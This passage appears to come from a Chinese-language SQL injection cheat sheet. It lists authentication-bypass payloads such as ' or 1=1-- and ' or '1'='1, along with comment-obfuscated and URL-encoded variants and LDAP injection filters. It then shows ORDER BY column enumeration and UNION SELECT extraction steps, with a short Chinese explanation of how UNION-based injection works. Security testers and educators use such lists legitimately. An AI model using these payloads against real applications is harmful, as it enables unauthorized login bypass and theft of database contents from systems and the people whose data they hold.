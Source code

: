```sql
like
limit
*(|(mail=*))
*(|(objectclass=*))
or
' or ''='
or 0=0 #"
' or 0=0 --
' or 0=0 #
" or 0=0 --
or 0=0 --
or 0=0 #
' or 1 --'
' or 1/*
; or '1'='1'
' or '1'='1
' or '1'='1'--
' or 1=1
' or 1=1 /*
' or 1=1--
' or 1=1--
'/**/or/**/1/**/=/**/1
‘ or 1=1 --
" or 1=1--
or 1=1
or 1=1--
or 1=1 or ""=
' or 1=1 or ''='
' or 1 in (SELECT @@version)--
or%201=1
or%201=1 --

1 UNION  SELECT 1,2,3 -- -
" UNION  SELECT 1,2,3 -- -
```



### 列数判断
```
1 order by 9 -- -
```
###  测试前台可显示的字段数量
```
1 UNION SELECT 1,2,3,4,5,6,7,8,9 -- -
```

### UNION联合查询

[UNION](http://dev.mysql.com/doc/refman/5.0/en/UNION.html) 用于将我们的SQL注入附加到合法查询，并将我们希望检索的信息与合法查询的信息结合起来。请注意，您需要首先枚举列的数量，这可以通过使用 [ORDER BY](http://www.w3schools.com/php/php_mysql_order_by.asp) 函数或使用具有[NULL](http://dev.mysql.com/doc/refman/5.0/en/null-values.html) 值的UNION来实现。
